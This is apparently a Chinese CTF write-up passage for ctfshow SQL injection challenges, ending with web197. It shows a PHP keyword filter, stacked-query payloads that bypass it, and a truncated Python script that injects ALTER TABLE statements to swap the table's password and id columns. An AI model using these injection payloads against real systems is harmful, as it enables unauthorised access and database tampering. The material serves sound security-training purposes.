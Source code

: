 这题应该是bug了，select没被waf

![在这里插入图片描述](../assets/1e88bb7a716790c989f552fb4a0e1a2a.png)

在 PHP 里，当使用数据库查询语句从数据库中获取结果集时，通常会逐行遍历结果集。每一行数据可以用一个数组来表示，`$row[0]` 指的是这一行数组中的第一个元素。

payload:

```
0;select(2)
2
```



#### web197

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
      
返回逻辑


  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
      
```

这把不能用select，那我们只需要想办法给$row[0]一个确定的值即可

比如

```
username: 1;show tables 
password: ctfshow_user
```

其他的一些骚操作

重写ctfshow_user表

![image-20250210001411101](../assets/image-20250210001411101.png)



把密码和id列互换之后爆密码（实际上在爆id）

```python
# @Author:Y4tacker
import requests

url = "http://b126bc7c-2b32-461d-9520-30d5baf7a152.chall.ctf.show/api/"
for i in range(100):
    if i == 0:
        data = {
            'username': '0;alter table ctfshow_user change column `pass` `ppp` varchar(255);alter table ctfshow_user '
                        'change column `id` `pass` varchar(255);alter table ctfshow_user change column `ppp` `id` '
                        'varchar(255);',
            'password': f'{i}'
```